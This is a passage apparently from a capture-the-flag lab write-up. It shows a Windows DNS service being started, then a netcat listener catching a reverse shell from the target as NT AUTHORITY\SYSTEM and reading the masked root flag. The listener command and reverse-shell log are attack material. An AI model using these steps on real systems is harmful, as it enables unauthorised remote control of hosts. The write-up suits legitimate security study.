 SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2752
        FLAGS              :
```

```# nc -lvnp 12345
listening on [any] 12345 ...
connect to [10.10.14.142] from (UNKNOWN) [10.10.10.169] 64126
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type root.txt                                                                                        
type root.txt                                                                                                                         
e1d948**************************
```
